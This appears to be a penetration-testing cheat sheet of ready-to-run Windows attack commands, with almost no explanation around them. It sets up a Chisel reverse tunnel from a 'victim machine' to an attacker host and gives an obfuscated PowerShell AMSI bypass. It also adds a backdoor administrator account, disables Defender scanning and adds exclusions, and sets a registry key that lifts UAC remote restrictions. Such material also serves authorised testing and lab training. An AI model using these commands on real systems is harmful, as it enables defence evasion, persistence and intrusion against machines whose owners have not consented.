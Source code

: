 #### Localhost services

##### Chisel

 - https://github.com/jpillora/chisel

Access localhost port 8888 on victim machine from attacking machine
```
./chisel_1.7.7_linux_amd64 server -p 9876 --reverse  # attacking machine
./chisel_1.7.7_windows_amd64 client 10.10.14.20:9876 R:8888:127.0.0.1:8888 # victim machine
```

#### AMSI bypass


```powershell
$a=[Ref].Assembly.GetTypes();$a | %{$b=$_; $count=0; $tmp=($_.Name).ToCharArray().ToInt32($null); $tmp | %{$count+= $_;}; if($count -eq 923){$c=$b}};$d=$c.GetFields('NonPublic,Static');$d | %{$e=$_; $count=0; $tmp=($_.Name).ToCharArray().ToInt32($null); $tmp | %{$count+= $_;}; if($count -eq 1167){$f=$e}};$o=1;while($o -lt 8){Start-Sleep -Milliseconds ($o.toInt32($null)*100);$o++};$g=$f.GetValue($null);[IntPtr]$x=$g;[Int32[]]$y=@(0);$cop=[System.Runtime.InteropServices.Marshal];$i=1;while($i -lt 5){Start-Sleep -Milliseconds ($i.toInt32($null)*100);$i++};$cop::Copy($y, 0, $x, 1);
```

#### Add admin account Windows

```
net user pentest Pentest1! /add
net localgroup administrators /add pentest
```

#### Add exclusions

```
Set-MpPreference -DisableRealTimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableScriptScanning 1
Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
Set-MpPreference -ExclusionProcess "legit.txt","powershell.exe","msbuild.exe"
```

#### Bypass UAC

- https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/


#### Disable UAC remote restrictions

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

```
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -PropertyType DWord -Force
```

